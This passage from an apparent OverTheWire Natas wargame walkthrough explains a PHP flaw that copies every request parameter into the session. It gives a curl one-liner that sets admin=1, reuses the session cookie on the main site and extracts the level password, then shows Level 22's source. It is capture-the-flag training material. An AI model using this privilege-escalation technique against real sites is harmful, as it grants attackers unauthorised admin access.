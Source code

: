 ```php
$style = "background-color: ".$_SESSION["bgcolor"]."; text-align: ".$_SESSION["align"]."; font-size: ".$_SESSION["fontsize"].";";
$example = "<div style='$style'>Hello world!</div>";

?>
```

Although it looks like it's filtering for valid keys, if we look at this section here:

```php
if(array_key_exists("submit", $_REQUEST)) {
    foreach($_REQUEST as $key => $val) {
    $_SESSION[$key] = $val;
    }
}
```

We can see that if `submit` is a parameter, it will just set every key/value pair, regardless of the key. Easy enough. All we have to do is submit a request with `admin=1&submit`.

```bash
curl -s "http://natas21:$natas21_pass@natas21.natas.labs.overthewire.org/" -b PHPSESSID=$(curl -Is "http://natas21:$natas21_pass@natas21-experimenter.natas.labs.overthewire.org/index.php?admin=1&submit" | grep -oP 'PHPSESSID=\K[[:alnum:]-]+(?=;)') | sed "s/$natas21_pass//g" | egrep -o [[:alnum:]]{32}
```

[*Back to top*](#overthewire---natas)

## Level 22

![natas22_index.jpg](screenshots/natas/natas22_index.jpg)

[Sourcecode](http://natas22.natas.labs.overthewire.org/index-source.html):

```php
?
session_start();

if(array_key_exists("revelio", $_GET)) {
    // only admins can reveal the password
    if(!($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1)) {
    header("Location: /");
    }
}
?>
...
<?
    if(array_key_exists("revelio", $_GET)) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas23\n";
    print "Password: <censored></pre>";
    }
?>
```
